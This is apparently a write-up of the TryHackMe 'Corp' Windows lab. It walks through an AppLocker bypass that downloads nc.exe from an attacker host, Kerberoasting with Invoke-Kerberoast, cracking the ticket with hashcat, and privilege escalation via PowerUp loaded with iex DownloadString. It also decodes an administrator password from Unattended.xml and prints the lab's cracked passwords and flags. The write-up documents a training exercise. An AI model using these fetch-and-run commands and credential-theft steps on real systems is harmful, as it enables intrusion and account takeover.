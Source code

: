 # Corp Writeup
#pentest/tryhackme

## AppLocker
AppLocker is an application whitelisting technology introduced with Windows 7. It allows restricting which programs users can execute based on the:
* programs path
* publisher
* hash.

## Bypass AppLocker
There are many ways to bypass AppLocker.

If AppLocker is configured with **default AppLocker rules**, we can bypass it by placing our executable in the following directory: 
`C:\Windows\System32\spool\drivers\color` , which is whitelisted by default. 

**Task:** Go ahead and use Powershell to download an executable of your choice locally, place it the whitelisted directory and execute it.

First let’s connect to the windows machine through RDP: `xfreerdp /f /u:'corp\dark' /v:10.10.106.60`

`CTRL + ALT + ENTER` allows us to escape fullscreen mode.

```shell
powershell -c "(new-object System.Net.WebClient).Downloadfile('http://10.2.13.100:8000/nc.exe', 'C:\Windows\System32\spool\drivers\color\nc.exe')"
```

Other ways to bypass AppLocker:
* [How to Bypass Windows AppLocker | Ethical Hacking Tutorials, Tips and Tricks](https://www.hacking-tutorial.com/hacking-tutorial/how-to-bypass-windows-applocker/)
* [GitHub - api0cradle/UltimateAppLockerByPassList: The goal of this repository is to document the most common techniques to bypass AppLocker.](https://github.com/api0cradle/UltimateAppLockerByPassList)

## Powershell history location

Just like Linux bash, Windows powershell saves all previous commands into a file called **ConsoleHost_history**. This is located at 
`%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

Printing the contents of the file:

```shell
powershell Get-Content -Path 'C:\Users\dark\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt'
```

## Kerberos
See [[Kerberos]] for an in-depth explanation of Kerberos.

Lets first enumerate Windows. If we run `setspn -T medin -Q */*` we can extract all accounts in the SPN.
::SPN is the Service Principal Name::, and is the mapping between service and account.

Running that command, we find an existing SPN. What user is that for?

```powershell
PS C:\Windows\System32\spool\drivers\color> setspn -T medin -Q */*
Ldap Error(0x51 -- Server Down): ldap_connect
Failed to retrieve DN for domain "medin" : 0x00000051
Warning: No valid targets specified, reverting to current domain.
CN=OMEGA,OU=Domain Controllers,DC=corp,DC=local
        Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/omega.corp.local
        ldap/omega.corp.local/ForestDnsZones.corp.local
        ldap/omega.corp.local/DomainDnsZones.corp.local
        TERMSRV/OMEGA
        TERMSRV/omega.corp.local
        DNS/omega.corp.local
        GC/omega.corp.local/corp.local
        RestrictedKrbHost/omega.corp.local
        RestrictedKrbHost/OMEGA
        RPC/7c4e4bec-1a37-4379-955f-a0475cd78a5d._msdcs.corp.local
        HOST/OMEGA/CORP
        HOST/omega.corp.local/CORP
        HOST/OMEGA
        HOST/omega.corp.local
        HOST/omega.corp.local/corp.local
        E3514235-4B06-11D1-AB04-00C04FC2DCD2/7c4e4bec-1a37-4379-955f-a0475cd78a5d/corp.local
        ldap/OMEGA/CORP
        ldap/7c4e4bec-1a37-4379-955f-a0475cd78a5d._msdcs.corp.local
        ldap/omega.corp.local/CORP
        ldap/OMEGA
        ldap/omega.corp.local
        ldap/omega.corp.local/corp.local
CN=krbtgt,CN=Users,DC=corp,DC=local
        kadmin/changepw
CN=fela,CN=Users,DC=corp,DC=local
        HTTP/fela
        HOST/fela@corp.local
        HTTP/fela@corp.local

Existing SPN found!
```

So the answer is: `CN=fela,CN=Users,DC=corp,DC=Local`

Now we have seen there is an SPN for a user, we can use Invoke-Kerberoast and get a ticket.
Lets first get the Powershell Invoke-Kerberoast script.

```powershell
powershell -c "(new-object System.Net.WebClient).Downloadfile('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1', 'C:\Windows\System32\spool\drivers\color\Invoke-Kerberoast.ps1')"
```

If the above is not working we can download the file on our Kali machine as request it through powershell. 
Now lets load this into memory: `Invoke-Kerberoast -OutputFormat hashcat |fl` 
We should get a SPN ticket, and indeed we get it : 

```powershell
C:\Windows\System32\spool\drivers\color>powershell
PS C:\Windows\System32\spool\drivers\color> Invoke-WebRequest -Uri 'http://<our-ip>/Invoke-Kerberoast.ps1' -OutFile 'Invoke-Kerberoast.ps1'
PS C:\Windows\System32\spool\drivers\color> . .\Invoke-Kerberoast.ps1
PS C:\Windows\System32\spool\drivers\color> Invoke-Kerberoast -OutputFormat hashcat |fl


TicketByteHexStream  :
Hash                 : $krb5tgs$23$*fela$corp.local$HTTP/fela*$91413060734DB19DDC6F68ED3D6E5AB6$C86E1E76EE9D275C68BA1F9
                       8C387DFEFD259E5459996FDC7A1251925397330E994404ED4764B04BCBD351FEDB1FB3178177CFA816340633FF00C81A
                       27E2189E015F9CF4D60C1F3FD9CCE59898BEAFCB09C847128260E1A9C826DF3A08D5C19A3E3AB96D525E01A8EE1A56E2
                       B14EE3957BEA78B0259056482F8E84BC1E2A9322B9C72CA01150345E8984C690BE2993080FFF7BF70A2AAE36BE0CC030
                       3D92B54CF1CD383D0957536F21937A6CCE4D737FD39CB249FF8F907826CDCDB35A5D6A78965BDCF5636779FF79EEA857
                       38C5ED3685ABF574F6192690FC5422C32F42653252A42E161C91A6CAFA0C4CB13BB48C297D80CC291F29171DCBAACCF0
                       F4981D9BE577936C48F0B3D9759167A410BD2FED73DD58688FECDAC486F1DF75560B6A7F835E20AA347B222B9A433605
                       10F9A3F467CC56621275D48C27BF2C30738AC4DB77D5DDAB96FF045993F947F605F9FEB73473E2A656C833A43FB72D94
                       158121B4CFCA35B7EADFFB7B3B032339A1AD652034012A317B3B168D4366DD9B632A64B330833887F51DEC7CC1C7BECA
                       784C4E916494E82B62DACA9658A23E579C94B15F747E2F21EF2ADBCE982C554F17D5F814ECA8D6DC546BA8A0C8EC3292
                       DC03F3024D1F29B677EDC0244BD33FBF387367AB76A44CA923BE2684A71401E18271C7CE40E045E8D04571E6DBFB34D2
                       21755C0E3ECB8FFFEE75EB869C2E986FD33394C423892F8C5C66C3329870D97CE1ACD5638946253B65C950498AFF3297
                       4C016761C0F9AB07220CEFE18B8A5520C54DEF11509C82843BBEA57BEFD126E252DCCFE0974613E2A1470C357A347C2E
                       3709F20EDCB5F6CEDFEA1E915C2A041A07C2E9D4E34D6BF8F45A0FC29E05DD7CD27586294F0A1E90607E1B2C6872803C
                       316172B2FB4D2AFB6CE87192310BFC04067289D148382921A612C8E88DE9D21AEE82C11432216CF86A9E773C6A9E75F3
                       FBB154DAA7AFF2B47E77BAC2283B898BB1362D03B8A6B0E6ABA70B90CFA6ABAB1A3EDFB37A59020EC8BA0B1D1702A003
                       54BD7BE6243CC0AED11FD3DB4134608980421DBDBA90D994C829F47908D2AD349F8FCF739E10260C82F5CA52A550307A
                       8BD10B394E9E925AC3E779F355A57F76505FEB41618EBAD6000165D0C37D4EADF6F359AA9A25796EEAD98008F4E7318A
                       2BF96D40E894A34A01D00C012B1AA6E7728559285E096ADC781E60368D7DFC132F68706C1FC6A639CF37E288000040D7
                       C0D21CE1DEBF47B7BE0E0980F104D32BCB527CC2B98902EF034B507DF70DC84FD0815CBC3F9EEE484A8040AB4ED6BD55
                       8CA18ECF0F5221649D1FD044CE7595B74914CAD1B4A6AEE391C1EF18A3AE5C7AC9934B11C0D2040B9B3630BF0FFE7BC8
                       4332C49533D4F665C81C3AECC95BCF07F0CEA82C2AB
SamAccountName       : fela
DistinguishedName    : CN=fela,CN=Users,DC=corp,DC=local
ServicePrincipalName : HTTP/fela
```

Lets use hashcat to bruteforce this password. 
The type of hash we’re cracking is **Kerberos 5 TGS-REP etype 23**and the hashcat code for this is **13100**.

`hashcat -m 13100 -a 0 extracted_hash /usr/share/wordlists/rockyou.txt —force`
or
`john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`

Crack the hash. What is the users password in plain text?
`rubenF124` and after reading the `flag.txt` in the Desktop:  `flag{bde1642535aa396d2439d86fe54a36e4}`

## Privilege Escalation

We will use a PowerShell enumeration script to examine the Windows machine. We can then determine the best way to get Administrator access.
We will run `PowerUp.ps1` for the enumeration, so let’s load it:

```powershell
iex​(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1')
```

Let’s invoke the script:

```powershell
C:\Users\fela.CORP>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\fela.CORP> Invoke-WebRequest -Uri 'http://10.9.0.54:8000/PowerUp.ps1' -OutFile 'PowerUp.ps1'
PS C:\Users\fela.CORP> . .\PowerUp.ps1
PS C:\Users\fela.CORP> Invoke-AllChecks

[*] Running Invoke-AllChecks

[*] Checking if user is in a local group with administrative privileges...
[+] User is in a local group that grants administrative privileges!
[+] Run a BypassUAC attack to elevate privileges to admin.

[*] Checking for unquoted service paths...
[*] Checking service executable and argument permissions...
[*] Checking service permissions...
[*] Checking %PATH% for potentially hijackable .dll locations...

HijackablePath : C:\Users\fela.CORP\AppData\Local\Microsoft\WindowsApps\
AbuseFunction  : Write-HijackDll -OutputFile 'C:\Users\fela.CORP\AppData\Local\Microsoft\WindowsApps\\wlbsctrl.dll'
                 -Command '...'

[*] Checking for AlwaysInstallElevated registry key...
[*] Checking for Autologon credentials in registry...
[*] Checking for vulnerable registry autoruns and configs...
[*] Checking for vulnerable schtask files/configs...
[*] Checking for unattended install files...

UnattendPath : C:\Windows\Panther\Unattend\Unattended.xml

[*] Checking for encrypted web.config strings...
[*] Checking for encrypted application pool and virtual directory passwords...

PS C:\Users\fela.CORP>
```

The script has identified several ways to get Administrator access. The first being to `bypassUAC` and the second is `UnattendedPath`.
We will be exploiting the `UnattendPath` way.

“Unattended Setup is the method by which original equipment manufacturers (OEMs), corporations, and other users install Windows NT in unattended mode.”  It is also where users passwords are stored in **base64**. 

Navigate to `C:\Windows\Panther\Unattend\Unattended.xml`

What is the decoded password?
Let’s dump the content of the `C:\Windows\Panther\Unattend\Unattended.xml` file:

```powershell
PS C:\Users\fela.CORP> more C:\Windows\Panther\Unattend\Unattended.xml
<AutoLogon>
    <Password>
        <Value>dHFqSnBFWDlRdjh5YktJM3lIY2M9TCE1ZSghd1c7JFQ=</Value>
        <PlainText>false</PlainText>
    </Password>
    <Enabled>true</Enabled>
    <Username>Administrator</Username>
</AutoLogon>
```

The base64 decoded password is:

```shell
$ echo "dHFqSnBFWDlRdjh5YktJM3lIY2M9TCE1ZSghd1c7JFQ=" | base64 -d
tqjJpEX9Qv8ybKI3yHcc=L!5e(!wW;$T
```

We have our administrator password! Let’s obtain the last flag:
The flag is on the desktop:

Answer: `THM{g00d_j0b_SYS4DM1n_M4s73R}`



